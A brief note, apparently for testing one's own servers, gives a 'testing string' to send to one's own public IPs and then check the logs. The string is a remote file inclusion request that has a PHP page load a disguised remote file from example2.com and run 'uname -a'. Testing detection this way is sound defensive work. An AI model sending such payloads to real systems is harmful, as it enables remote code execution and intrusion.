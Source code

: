 = Testing String

Use this string on one of your VS Public IPs and then check the logs

----
uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
----
